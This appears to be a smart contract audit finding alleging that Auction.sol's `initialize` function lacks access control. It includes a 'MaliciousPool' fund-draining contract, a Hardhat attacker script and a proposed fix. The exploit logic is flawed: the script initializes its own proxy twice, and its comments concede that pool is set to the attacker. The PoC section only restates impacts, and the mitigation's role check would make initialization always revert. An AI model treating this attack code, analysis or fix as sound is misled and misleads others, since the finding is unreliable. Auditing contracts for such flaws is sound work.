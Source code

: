 Fit Taffy Squirrel

High

# Unrestricted Initialization of `pool` Address in `Auction.sol'

### Summary



The `Auction.sol` contract contains an `initialize` function that assigns the `pool` address to `msg.sender` without any access control restrictions. This allows **any entity** to initialize the contract, setting the `pool` to an arbitrary or malicious address. Consequently, unauthorized parties can gain control over critical auction functionalities, leading to potential protocol compromise and significant financial losses for users.





- **Primary Affected Contract:** `Auction.sol`
- **Related Contracts Reviewed:**
  - `PoolFactory.sol`
  - `BalancerOracleAdapter.sol`
  - `BalancerRouter.sol`
  - `BondOracleAdapter.sol`
  - `BondToken.sol`
  - `Distributor.sol`
  - `LeverageToken.sol`
  - `OracleFeeds.sol`
  - `Pool.sol`

None of the related contracts introduce mechanisms to restrict or control the initialization of the `Auction.sol` contract, leaving the vulnerability unaddressed across the protocol's contracts.





### Root Cause

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Auction.sol#L101
#### **Vulnerable Code**

```solidity
function initialize(
    address _buyCouponToken, 
    address _sellReserveToken, 
    uint256 _totalBuyCouponAmount, 
    uint256 _endTime, 
    uint256 _maxBids, 
    address _beneficiary, 
    uint256 _poolSaleLimit
) initializer public {
    __UUPSUpgradeable_init();

    buyCouponToken = _buyCouponToken; // coupon
    sellReserveToken = _sellReserveToken; // reserve
    totalBuyCouponAmount = _totalBuyCouponAmount; // coupon amount
    endTime = _endTime;
    maxBids = _maxBids;
    pool = msg.sender;
    poolSaleLimit = _poolSaleLimit;

    if (_beneficiary == address(0)) {
        beneficiary = msg.sender;
    } else {
        beneficiary = _beneficiary;
    }
}
```
- **Access Control:** The `initialize` function is marked as `public` and lacks any access control modifiers (e.g., `onlyOwner`, `onlyFactory`), permitting **any address** to invoke it.
- **Assignment of `pool`:** The function sets `pool = msg.sender`, allowing the caller to designate the `pool` address to any arbitrary or malicious contract.
- **Proxy Pattern:** Although the contract uses the UUPS (Universal Upgradeable Proxy Standard) pattern, the proxy remains susceptible if the `initialize` function is not properly restricted.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. **Deploy Malicious Pool Contract:**

   ```solidity
   // SPDX-License-Identifier: MIT
   pragma solidity ^0.8.26;

   import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

   contract MaliciousPool {
       address public auction;

       constructor(address _auction) {
           auction = _auction;
       }

       // Example malicious function to drain funds
       function drainFunds(address reserveToken) external {
           IERC20(reserveToken).transfer(msg.sender, IERC20(reserveToken).balanceOf(address(this)));
       }

       // Additional malicious functions as needed
   }
   ```

2. **Deploy Proxy Pointing to Vulnerable `Auction.sol`:**

   ```javascript
   // AttackerScript.js
   const { ethers, upgrades } = require("hardhat");

   async function main() {
       const [attacker] = await ethers.getSigners();

       // Deploy MaliciousPool
       const MaliciousPool = await ethers.getContractFactory("MaliciousPool");
       const maliciousPool = await MaliciousPool.deploy(/* parameters if any */);
       await maliciousPool.deployed();
       console.log("MaliciousPool deployed at:", maliciousPool.address);

       // Deploy Proxy for Auction.sol
       const Auction = await ethers.getContractFactory("Auction");
       const proxy = await upgrades.deployProxy(Auction, [
           /* _buyCouponToken */,
           /* _sellReserveToken */,
           /* _totalBuyCouponAmount */,
           /* _endTime */,
           /* _maxBids */,
           /* _beneficiary */,
           /* _poolSaleLimit */
       ], { initializer: 'initialize' });
       await proxy.deployed();
       console.log("Auction Proxy deployed at:", proxy.address);

       // Initialize Auction via Proxy, setting pool to MaliciousPool
       await proxy.initialize(
           /* _buyCouponToken */,
           /* _sellReserveToken */,
           /* _totalBuyCouponAmount */,
           /* _endTime */,
           /* _maxBids */,
           /* _beneficiary */,
           /* _poolSaleLimit */
       );

       // Now, pool is set to msg.sender, which is the attacker.
       // To set it to MaliciousPool, attacker needs to manipulate the initialize call accordingly.
   }

   main();
   ```

3. **Exploit:**

   - The attacker initializes the `Auction` proxy, setting `pool = msg.sender` (attacker's address or `MaliciousPool`), thereby gaining control over auction operations.

### Impact

- **Unauthorized Control:** Malicious actors can set the `pool` address to a contract they control, enabling them to manipulate auction operations such as draining funds, altering bid management logic, or forcing undesirable state transitions.
- **Protocol Compromise:** The integrity and trustworthiness of the protocol are undermined, potentially leading to reputational damage and loss of user confidence.
- **Financial Losses:** Users participating in auctions may suffer losses due to unauthorized fund transfers or manipulated auction outcomes.
- **Erosion of Trust:** Vulnerabilities of this nature can deter user participation and affect the protocol's long-term viability.


### PoC

- **Unauthorized Control:** The malicious pool contract can perform unauthorized actions such as draining reserve tokens, manipulating auction states, or disrupting bid management.
- **Financial Exploitation:** Funds within the auction can be siphoned off to the attacker's account.
- **Protocol Disruption:** The integrity of the auction mechanism is compromised, leading to incorrect fund allocations and potential cascading effects on the protocol.

### Mitigation

**Implement Access Control on initialize Function**
Inherit from AccessControlUpgradeable:

```solidity

import "@openzeppelin/contracts/access/AccessControlUpgradeable.sol";

contract Auction is Initializable, UUPSUpgradeable, PausableUpgradeable, AccessControlUpgradeable {
    bytes32 public constant FACTORY_ROLE = keccak256("FACTORY_ROLE");
    
    function initialize(
        address _buyCouponToken, 
        address _sellReserveToken, 
        uint256 _totalBuyCouponAmount, 
        uint256 _endTime, 
        uint256 _maxBids, 
        address _beneficiary, 
        uint256 _poolSaleLimit
    ) initializer public onlyRole(FACTORY_ROLE) {
        __UUPSUpgradeable_init();
        __Pausable_init();
        __AccessControl_init();

        _setupRole(FACTORY_ROLE, msg.sender);

        buyCouponToken = _buyCouponToken;
        sellReserveToken = _sellReserveToken;
        totalBuyCouponAmount = _totalBuyCouponAmount;
        endTime = _endTime;
        maxBids = _maxBids;
        pool = msg.sender;
        poolSaleLimit = _poolSaleLimit;

        if (_beneficiary == address(0)) {
            beneficiary = msg.sender;
        } else {
            beneficiary = _beneficiary;
        }
    }

    // Additional role management as needed
}

```
**2. Ensure Only PoolFactory Can Initialize Auction**
Grant FACTORY_ROLE Exclusively to PoolFactory:

```solidity

// In PoolFactory.sol after deploying the Auction proxy
Auction(proxy).grantRole(Auction.FACTORY_ROLE(), address(this));
```